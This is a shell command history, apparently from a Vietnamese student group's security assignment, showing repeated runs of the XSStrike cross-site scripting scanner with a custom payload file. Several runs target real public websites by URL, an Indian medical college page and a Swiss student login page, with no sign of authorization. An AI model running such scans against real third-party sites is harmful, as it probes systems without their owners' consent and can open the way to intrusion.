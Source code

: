  1757  python3 xsstrike.py 
 1758  clear
 1759  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --path 150
 1760  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --path 1
 1761  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --path 
 1762  clear
 1763  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --skip-dom
 1764  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --skip-dom > result.txt
 1765  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --skip-dom 
 1766  python3 xsstrike.py  
 1767  python3 xsstrike.py  -f '/home/erik/Documents/XSStrike/payloadXSS.txt' 
 1768  python3 xsstrike.py  -f /home/erik/Documents/XSStrike/payloadXSS.txt
 1769  python3 xsstrike.py  --file  /home/erik/Documents/XSStrike/payloadXSS.txt
 1770  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi  
 1771  clear
 1772  git status
 1773  git_custom.sh 
 1774  Đặng Anh Tuấn : Mô tả kịch bản thử nghiệm tấn công 
 1775  Nguyễn Hải Đăng : Kết luận và khuyến cáo
 1776  Phạm Thế Phong : Tổng quan về vấn đề nghiên cứu: vai trò, ý nghĩa của vấn đề.
 1777  Nguyễn Tuấn Anh : Mô tả về các công cụ sử dụng, hướng dẫn sử dụng, ưu nhược điểm của công cụ/ lý do lựa chọn.
 1778  cd ~/Documents/
 1779  echo > BTLATk54.md
 1780  nano BTLATk54.md
 1781  nano payloadXSS.txt 
 1782  python3 xsstrike.py 
 1783  python3 xsstrike.py  -u http://gmcbhavnagar.edu.in/association.php?code=hi --skip-dom
 1784  git clone  https://github.com/Ra1dhunter/xss-strike.git
 1785  cd xss-strike/
 1786  clear
 1787  ls
 1788  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --skip-dom
 1789  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi 
 1790  clear
 1791  ping google.com
 1792  clear
 1793  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi 
 1794  history 
 1795  clear
 1796  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi --skip-dom
 1797  git clone https://github.com/Ra1dhunter/xss-strike.git
 1798  python3 xsstrike.py 
 1799  history 
 1800  clear
 1801  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=hi
 1802  python3 xsstrike.py -u http://gmcbhavnagar.edu.in/association.php?code=
 1803  clear
 1804  ping google.com
 1805  clear
 1806  python3 xsstrike.py -u https://www.larondedespetits.ch/maeliss/etudiant/login.php?error_login=hi
 1807  clear
 1808  python3 xsstrike.py -u https://www.larondedespetits.ch/maeliss/etudiant/login.php?error_login=hi
 1809  clear
 1810  python3 xsstrike.py -u https://www.larondedespetits.ch/maeliss/etudiant/login.php?error_login=hi
 1811  clear
 1812  python3 xsstrike.py -u https://www.larondedespetits.ch/maeliss/etudiant/login.php?error_login=hi
 1813  clear